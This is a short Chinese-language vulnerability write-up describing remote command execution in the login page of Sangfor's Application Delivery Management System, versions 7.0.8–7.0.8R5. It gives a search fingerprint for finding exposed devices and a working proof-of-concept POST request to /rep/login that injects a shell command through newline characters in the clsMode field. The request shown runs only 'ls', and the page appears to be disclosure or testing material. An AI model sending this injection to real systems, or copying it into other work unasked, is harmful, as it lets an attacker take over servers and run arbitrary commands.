

# 深信服 应用交付管理系统 login 远程命令执行漏洞

## 漏洞描述

深信服 应用交付管理系统 login 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

## 网络测绘

```
fid="iaytNA57019/kADk8Nev7g=="
```

## 漏洞复现

登陆页面


验证POC

```
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

